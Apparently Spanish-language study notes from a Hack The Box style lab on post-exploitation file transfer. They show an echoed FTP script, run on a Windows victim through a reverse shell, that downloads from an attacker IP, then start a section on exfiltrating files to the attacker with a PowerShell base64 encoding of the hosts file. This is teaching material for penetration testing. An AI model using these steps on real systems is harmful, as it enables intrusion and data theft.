 La solución es **preparar un archivo con los comandos FTP** y decirle al cliente FTP que los ejecute automáticamente.
(Todo esto **se ejecuta desde la máquina víctima**, normalmente cuando ya tienes **una reverse shell en Windows**):
1. Crear archivo de comandos `ftpcommand.txt`:

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
```

2. Ejecutar FTP usando el archivo de comandos:
```
ftp -v -n -s:ftpcommand.txt  
```
- `-v` → modo verbose, muestra lo que pasa.
- `-n` → no intenta iniciar sesión automáticamente.
- `-s:ftpcommand.txt` → ejecuta los comandos que están en el archivo.
Esto hace que **FTP lea todos los comandos del archivo y ejecute la conexión y la descarga automáticamente**, sin que tengas que escribir nada manualmente.

3. Verificar contenido del archivo descargado:
```
more file.txt
```
Lo que pasa con la reverse shell
- Muchas reverse shells **no soportan interacción completa** con comandos que requieren "entrada manual" o que usan redirecciones (`>` o `>>`) correctamente.
- Por ejemplo, `echo open 192.168.49.128 > ftpcommand.txt` intenta crear un archivo en disco, pero si la reverse shell es limitada:
    - No puede interpretar correctamente `>` y `>>`.
    - No tiene acceso a la ruta donde se intenta crear el archivo.
    - No muestra el prompt real de cmd, así que los comandos que dependen del prompt fallan.-

**¿Por qué sí funciona `ftp -v -n -s:ftpcommand.txt?**
- En este caso **ya tienes el archivo de comandos preparado** en la víctima.
- `ftp -s:ftpcommand.txt` simplemente **lee el archivo y ejecuta las instrucciones de forma automática**, sin interacción.
- Esto evita problemas de:
    - Redirección de salida (`>` / `>>`)

-------------
# Subida de archivos

Hay situaciones donde nos interesa subir archivos desde la víctima para el atacante. Podemos utilizar:

## 1. PowerShell Base64 Encode & Decode
```
[Convert]::ToBase64String(
    (Get-Content -Path "C:\Windows\system32\drivers\etc\hosts" -Encoding Byte)
)
```
